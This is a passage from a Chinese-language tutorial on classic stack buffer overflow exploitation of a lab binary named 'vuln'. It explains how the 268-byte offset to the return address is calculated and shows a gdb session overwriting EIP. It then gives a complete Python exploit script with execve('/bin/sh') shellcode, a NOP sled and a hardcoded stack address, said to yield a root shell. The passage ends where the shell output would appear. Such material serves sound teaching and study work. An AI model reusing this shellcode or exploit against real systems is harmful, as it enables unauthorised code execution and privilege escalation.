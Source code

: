 测试第二步：来自目标缓冲区的偏移量是什么？  

现在我们来找找目标缓冲区‘buf’中返回地址的偏移处于什么位置。  
之前我们已经反汇编并画了main()的堆栈布局，那么现在就试着找出代码的偏移位置信息吧！由堆栈布局可以看出，返回地址偏移位于目标缓冲区buf的(0x10c)处。(0x10c)计算方式如下  

0x10c = 0x100 + 0x8 + 0x4  
其中：  

0X100 是‘buf’大小  
0x8 是对齐空间  
0x4 是调用者的EBP  
这样一来，用户输入“A” 268 + “B” 4中，一串“A”覆盖‘buf’、对齐空间和调用者的EBP，“BBBB”覆盖返回地址。  

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果表明攻击者已经获得返回地址的控制权。位于栈 (0xbffff1fc)的返回地址已经被“BBBB”覆盖了。有了这些信息，我们就可以写出能实现任意代码执行的漏洞利用代码了。  

漏洞利用代码：  

``` python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用程序就可以获取root shell，如下所示：  
